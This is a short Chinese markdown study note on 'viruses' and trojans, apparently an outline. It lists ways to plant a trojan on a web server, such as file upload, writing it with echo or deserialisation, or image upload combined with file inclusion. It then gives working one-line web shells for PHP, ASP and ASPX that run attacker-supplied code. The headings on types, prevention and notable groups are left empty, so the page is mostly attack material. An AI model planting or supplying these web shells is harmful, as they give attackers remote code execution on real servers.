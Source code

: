 # 病毒

## 木马

### 木马的植入方式：

1. 文件上传
2. 以字符串方式上传  使用 echo 或者  命令行或者反序列化等方式写入一句话木马
3. 上传图片+文件包含漏洞 



### 木马变形：

1.  函数

   ```
   php一句话木马：  <?php @eval($_POST[value]); ?>
   asp一句话木马：  <%eval request ("value")%> 或  <% execute(request("value")) %>   
   aspx一句话木马： <%@ Page Language="Jscript" %> <% eval(Request.Item["value"]) %>
   ```

   




## 什么事病毒
## 有哪些类型
## 如何防止
## 有什么牛逼的组织